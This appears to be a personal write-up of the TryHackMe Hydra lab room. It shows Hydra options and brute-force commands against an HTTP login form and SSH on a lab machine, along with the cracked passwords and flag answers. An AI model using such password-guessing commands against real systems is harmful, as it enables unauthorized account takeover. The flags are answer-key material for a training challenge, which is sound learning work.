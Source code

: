 ```yaml
---
{"dg-publish":true,"permalink":"/try-hack-me/rooms/hydra/","created":"2024-11-04T16:15:42.215-05:00","updated":"2025-02-06T21:54:43.277-05:00"}
---
```


# Task 2 - Using Hydra

| Option              | Description                                                                            |
| ------------------- | -------------------------------------------------------------------------------------- |
| -l                  | specifies the (SSH) username for login                                                 |
| -P                  | indicates a list of passwords                                                          |
| -t                  | sets the number of threads to spawn                                                    |
| http-post-form      | the type of the form is POST                                                           |
| <path>              | the login page URL, for example, login.php                                             |
| <login_credentials> | the username and password used to log in, for example, username=^USER^&password=^PASS^ |
| <invalid_response>  | part of the response when the login fails                                              |
| -V                  | verbose output for every attempt                                                       |

- Example command to brute force ftp    
    - `hydra -l user -P passlist.txt [ftp://MACHINE_IP](ftp://MACHINE_IP)`
- Another example
    - `hydra -l <username> -P <wordlist> 10.10.71.57 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V`

> [!Question]
> **Use Hydra to bruteforce molly's web password. What is flag 1?**

Going to the target IP address gives us a web login from with a username and password,

 ![Exported image](/img/user/TryHackMe/THM_Images/6acea8dcaa459a0a51bc6bac7a46278c.png)  

Checking the page source tells us that its using a "POST" method as the request type

 ![Exported image](/img/user/TryHackMe/THM_Images/4caa7657ba57ccde9af7565786a80179.png)

Ran the command

```
hydra -l molly -P rockyou.txt 10.10.71.57 http-post-form "/login:username=^USER^&password=^PASS^:Your username or password is incorrect"
```
   
![Exported image](/img/user/TryHackMe/THM_Images/d3bfcde61619b5012049d3a2a6e334f6.png)  

Using the username, molly, and the password, sunshine, allows us to make it through and login to find the flag.

![Exported image](/img/user/TryHackMe/THM_Images/8b26c6071413b8325dd2a902f06fd47d.png)  

> [!Success] Answer
> THM{2673a7dd116de68e85c48ec0b1f2612e}

> [!Question]
> **Use Hydra to bruteforce molly's SSH password. What is flag 2?** 

Used the following command to find the SSH password: 

```
hydra -l molly -P rockyou.txt 10.10.71.57 -t 4 ssh
```

![Exported image](/img/user/TryHackMe/THM_Images/b63f779eaf9859ed2e22f534b6bea215.png)  

Then SSH'd into molly's machine to get the flag using the password, butterfly.

![Exported image](/img/user/TryHackMe/THM_Images/12d9adee146e29ab4487aaf9bc440b49.png)  

> [!Success] Answer
> THM{c8eeb0468febbadea859baeb33b2541b}
